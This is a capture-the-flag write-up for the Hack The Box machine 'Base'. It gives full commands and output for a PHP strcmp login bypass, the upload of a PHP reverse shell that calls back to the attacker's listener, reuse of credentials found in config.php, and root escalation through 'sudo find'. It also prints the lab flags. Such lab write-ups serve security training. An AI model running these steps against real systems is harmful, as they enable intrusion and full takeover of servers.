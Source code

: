 ![Image LOGO](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/base.png)

## ------------>> Base <<----------------

// We start with nmap scan

    $ nmap -sC -sV -A -Pn 10.10.10.48 -p-
-----    
    
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 21:35 EDT
    Stats: 0:01:30 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 7.28% done; ETC: 21:55 (0:18:53 remaining)
    Nmap scan report for 10.10.10.48
    Host is up (0.37s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
    |   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
    |_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Nvigatin to http://10.10.10.48/ we got some website that have a login page


![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/1.png)


// Due to miscunfigiration of the develepo we could access the directory from http://10.10.10.48/login/  

// There we can see file login.pgp.swp


![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/2.png)


// In the file we can see block of code


    $ cat login.php.sw
-----

    </html></body><script src="assets/js/main.js"></script><script src="assets/js/util.js"></script><script src="assets/js/breakpoints.min.js"></script><script src="assets/js/browser.min.js"></script><script src="assets/js/jquery.poptrox.min.js"></script><script src="assets/js/jquery.min.js"></script><!-- Scripts --></div>    </div>        </div>            </form>                </ul>                    </li>                        <button class="button" type="submit" value="Submit">Login</button>                    <li>                <ul>                </ul>                    <li><input type="password" name="password" id="password"></li>                    <li><input type="text" name="username" id="username"></li>                <ul>            <form id="login-form" method="POST" action="" onsubmit="">        <div id="menu">        </div>            <h1><a href="index.php">Base</a></h1>        <div id="logo">    <div id="header" class="container"><div id="header-wrapper"><!-- Main --><!-- Wrapper --><body></head>    <link href="default_ie6.css" rel="stylesheet" type="text/css"/><![endif]-->    <!--[if IE 6]>    <link href="fonts.css" rel="stylesheet" type="text/css" media="all"/>    <link href="default.css" rel="stylesheet" type="text/css" media="all"/>    <link href="http://fonts.googleapis.com/css?family=Source+Sans+Pro:200,300,400,600,700,900" rel="stylesheet"/>    <meta name="description" content=""/>    <meta name="keywords" content=""/>    <title>Base Login</title>    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/><head><html xmlns="http://www.w3.org/1999/xhtml"><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">?>}    }        print("<script>alert('Wrong Username or Password')</script>");    } else {        }            print("<script>alert('Wrong Username or Password')</script>");        } else {            header("Location: upload.php");            $_SESSION['user_id'] = 1;        if (strcmp($password, $_POST['password']) == 0) {    if (strcmp($username , $_POST['username']) == 0) {    require('config.php');if (!empty($_POST['username']) && !empty($_P


// it seems that its the authentication mehod for the login


    if (strcmp($password, $_POST['password']) == 0) 
    if (strcmp($username , $_POST['username']) == 0)


// Developer uses strcmp to check username and password, whitch its insecure and can be easilly bypass

// due to the fact that if strcmp is given an empty array to compare againts the stored password, it retuens null.

// in PHP the == operator only checks the value of a viriable for equality and the value of null is equal to 0.

// the correct way to write this its using === which checks both the value and type.

// lets open burp and catch the login packet


![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/3.png)


// Now lets send another login but this time we will edit the request in BurpSuite proxy

// edit to last line and send

    username[]=test&password[]=test

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/4.png)


// We got redirect to http://10.10.10.48/upload.php , where we can upload files


![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/5.png)


// when upload file its send us succcess but where the file?... lets run gobuster

    $ gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirb/big.txt -q -n -e
-----    
    
    http://10.10.10.48/.htaccess            [Size: 276]
    http://10.10.10.48/.htpasswd            [Size: 276]
    http://10.10.10.48/_uploaded            [Size: 314] [--> http://10.10.10.48/_uploaded/]


// lets test if and upload some file and call him

    $ touch 1 > test.txt

// Upload test.txt and navigate to http://10.10.10.48/_uploaded/test.txt , it works!


![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/6.png)


// lets upload php reverse shell (u can either cp or download from ![here](https://www.revshells.com/))

    $ cp /usr/share/laudanum/php/php-reverse-shell.php php_rshell.php
// editing the file with our ip and port

    ...
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '10.10.16.14';  // CHANGE THIS
    $port = 1444;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ...

// open a listiner with nc

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
 
 // and navigate to 10.10.10.48/_uploaded/php_rshell.php
 
    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.14] from (UNKNOWN) [10.10.10.48] 40934
    Linux base 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
     06:15:16 up 13:43,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


// lets promote shell using python

    python3 -c "import pty;pty.spawn('/bin/bash')"


// Searching in the /var/www/html/login/ directory, found file config.php

    www-data@base:/var/www/html/login$ cat config.php
    cat config.php
    <?php
    $username = "admin";
    $password = "thisisagoodpassword";
    ...

// we found user john in etc/passwd

    www-data@base:/etc$ cat passwd
    ......................................................
    john:x:1000:1000:John:/home/john:/bin/bash
    ................................................

// Try connect johb user with password: hisisagoodpassword

    www-data@base:/$ su john
    su john
    password: thisisagoodpassword

    john@base:/$ id
    uid=1000(john) gid=1000(john) groups=1000(john)
    
// It Worked! 

// We got user flag!

    john@base:~$ cat user.txt
    cat user.txt
    f54846c258f3b4612f78a819573d158e


## ----Privilliges Escalation----


// running sudo -l for checking which files we can run with root permission we got 'find'


    john@base:~$ sudo -l
    sudo -l
    [sudo] password for john: thisisagoodpassword

    Matching Defaults entries for john on base:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User john may run the following commands on base:
        (root : root) /usr/bin/find


// lets abuse 'find' command for root privilleges 


    john@base:~$ sudo find . -exec /bin/sh \; -quit
    sudo find . -exec /bin/sh \; -quit
    
    # whoami
    whoami
    root


// Lets promote root shell with python

    # python3 -c "import pty;pty.spawn('/bin/bash')"
    python3 -c "import pty;pty.spawn('/bin/bash')"
    root@base:/home# 
-----

// We got root flag !

    root@base:/root# cat root.txt
    cat root.txt
    51709519ea18.................

